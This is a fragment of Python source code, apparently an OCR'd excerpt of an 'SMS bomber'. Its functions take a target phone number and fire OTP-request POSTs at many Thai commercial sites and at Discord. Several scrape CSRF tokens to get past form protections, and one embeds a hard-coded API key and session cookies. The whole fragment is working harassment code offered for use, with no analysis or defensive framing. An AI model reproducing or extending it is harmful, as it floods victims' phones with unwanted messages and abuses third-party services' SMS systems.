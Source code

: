 

def api53(phone):

    post("https://www.kaitorasap.co.th/api/index.php/send-otp/", data = {"phone_number": phone,"lag": " "})

    

def api54(phone):

    requests=Session()

    token=search('<meta name="_csrf" content="(.*)" />',get("https://www.shopat24.com/register/").text).group(1)

    post("https://www.shopat24.com/register/ajax/requestotp/",data=f"phoneNumber={phone}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","x-csrf-token": token})



def api55(phone):

    session = Session()

    ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"}).text

    session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms",headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

            

def api56(phone):

    post("https://discord.com/api/v9/users/@me/phone",headers=header,json={"phone":"+66"+phone})

    

def api57(phone):

    post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp", data={"mobile_phone_no":phone})



    

def api58(phone):

    post("https://www.tgfone.com/signin/otp_chk_fast",headers=header,json=f"mobile={phone}&type_otp=7")



def api59(phone):

    post("https://ufa3bb.com/account/register/sendotp",headers=header,data=f"phone={phone}")

    

def api60(phone):

    post("https://login.s-momclub.com/accounts.otp.sendCode", data=f"phoneNumber=%2B66{phone[1:]}&lang=th&APIKey=3_R6NL_0KSx2Jyu7CsoDxVYau1jyOIaPzXKbwpatJ_-GZStVrCHeHNIO3L1CEKVIKC&source=showScreenSet&sdk=js_latest&authMode=cookie&pageURL=https%3A%2F%2Fwww.s-momclub.com%2Fprofile%2Flogin&sdkBuild=12563&format=json",headers={"content-type": "application/x-www-form-urlencoded","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "gmid=gmid.ver4.AcbHriHAww._ill8qHpGNXtv9aY3XQyCvPohNww4j7EtjeiM3jBccqD7Vx0OmGeJuXcpQ2orXGs.nH0yRZjbm75C-5MVgB2Ii0PWvx6TICBn1LYI_XtlgoHg9mnouZgNs6CHULJEitOfkBhHvf8zUvrvMauanc52Sw.sc3;ucid=Tn63eeu2u8ygoINkqYBk5w;hasGmid=ver4;_ga=GA1.2.1714152564.1642328595;_fbp=fb.1.1642328611770.178002163;_gcl_au=1.1.64457176.1642329285;gig_bootstrap_3_R6NL_0KSx2Jyu7CsoDxVYau1jyOIaPzXKbwpatJ_-GZStVrCHeHNIO3L1CEKVIKC=login_ver4;_gid=GA1.2.1524201365.1642442639;_gat=1;_gat_rolloutTracker=1;_gat_globalTracker=1;_gat_UA-62402337-1=1"})
